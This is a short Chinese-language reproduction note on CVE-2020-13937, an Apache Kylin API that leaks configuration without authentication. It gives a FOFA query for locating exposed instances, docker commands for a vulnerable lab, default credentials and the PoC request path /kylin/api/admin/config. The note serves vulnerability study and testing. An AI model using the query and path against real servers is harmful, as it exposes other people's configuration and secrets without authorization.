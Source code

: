 # Apache Kylin config 未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息

## FOFA

```
app="APACHE-kylin"
```

## 环境搭建

```
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

![image-20220525161044773](./images/202205251610838.png)

## 漏洞复现

漏洞验证POC

```
/kylin/api/admin/config
```

![image-20220525161140820](./images/202205251611885.png)